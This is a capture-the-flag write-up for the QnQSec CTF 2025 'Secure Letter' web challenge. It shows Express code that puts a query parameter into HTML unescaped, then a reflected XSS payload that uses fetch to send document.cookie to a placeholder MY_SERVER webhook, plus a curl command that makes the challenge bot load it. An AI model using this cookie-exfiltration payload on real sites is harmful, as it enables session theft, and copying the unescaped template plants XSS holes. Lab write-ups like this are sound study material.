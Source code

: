 +++
date = '2025-10-27T09:23:15+07:00'
title = 'QnQSec CTF - Secure Letter Writeup'
tags = ['QnQSec CTF 2025', 'CTFs']
description = 'Ive made a secure letter app that supports all browsers, even the oldest ones! Ive even specifically told my AI make it SUPER secure!'
draft = false

[cover]
  image = '/images/posts/qnqsec-cover.jpg'
  alt = 'QnQSec CTF - Secure Letter'
  caption = 'QnQSec CTF - Secure Letter'
  relative = false
+++

> **Room / Challenge:** Secure-Letter (Web)

---

## Metadata

-   **Author:** `jameskaois`
-   **CTF:** QnQSec CTF 2025
-   **Challenge:** Secure-Letter (web)
-   **Target / URL:** `http://161.97.155.116:3001/`
-   **Points:** `50`
-   **Date:** `20-10-2025`

---

## Goal

We have to get the flag by using XSS to get the flag from bot.

## My Solution

This solution is written after the server has beed shut down, so I will use my mind. First let's examine the [source code](./secure-letter.7z), there is a route that we can use to inject Javascript code (XSS): `/letter` route

```javascript
app.get('/letter', (req, res) => {
    const content = req.query.content || 'Write your letter here...';

    const letterHtml = `
<!DOCTYPE html>
<html>
<head>
    <meta charset="UTF-8">
    <title>Your Letter</title>
    <style>
        body {
            font-family: 'Times New Roman', serif;
            margin: 0;
            padding: 40px;
            background: linear-gradient(to bottom right, #fef3c7, #fde68a);
            min-height: 100vh;
        }
        .letter-container {
            max-width: 600px;
            margin: 0 auto;
            background: white;
            padding: 40px;
            border-radius: 10px;
            box-shadow: 0 10px 30px rgba(0,0,0,0.1);
            border: 1px solid #e5e7eb;
        }
        .letter-header {
            text-align: center;
            margin-bottom: 30px;
            border-bottom: 2px solid #d1d5db;
            padding-bottom: 20px;
        }
        .letter-content {
            line-height: 1.8;
            font-size: 16px;
            color: #374151;
            white-space: pre-wrap;
        }
        .letter-signature {
            margin-top: 30px;
            text-align: right;
        }
    </style>
</head>
<body>
    <div class="letter-container">
        <div class="letter-header">
            <h2>📮 Personal Letter</h2>
        </div>
        <div class="letter-content">${content}</div>
        <div class="letter-signature">
            <p><em>Written with love ❤️</em></p>
        </div>
    </div>
</body>
</html>`;

    res.setHeader('Content-Type', 'text/html; charset=utf-8');
    res.end(letterHtml);
});
```

The `content` value from query param is rendered into the page so we can inject Javascript to get the flag from bot cookie:

```javascript
const BOT_CONFIG = {
    baseUrl: process.env.WEB_URL || 'http://localhost:3001',
    cookieName: 'flag',
    cookieValue: process.env.FLAG || 'FLAG{test_flag}',
};
```

I use this javascript code to get the cookie:

```javascript
fetch(`https://MY_SERVER/webhook?c=${document.cookie}`);
```

However the bot set the cookie to the domain `process.env.COOKIE_DOMAIN` or `localhost`:

```javascript
await page.setCookie({
    name: BOT_CONFIG.cookieName,
    value: BOT_CONFIG.cookieValue,
    domain: process.env.COOKIE_DOMAIN || 'localhost',
    path: '/',
    httpOnly: false,
    secure: false,
});
```

So we have to use `http://web:3001/letter?content=<OUR_SCRIPT>`. The final exploit `curl` code (I encoded script to prevent error):

```bash
curl -v -X POST 'http://161.97.155.116:3001/api/report' \
  -H 'Content-Type: application/json' \
  -d '{"url":"http://web:3001/letter?content=%3Cscript%3Efetch(%60https://MY_SERVER/webhook?c=%24%7Bdocument.cookie%7D%60)%3C/script%3E"}'
```

Result:
![Guide image](/images/posts/secure-letter-1.png)

Flag: `QnQSec{bf_c4ch3_0ff_clobbering_on}`
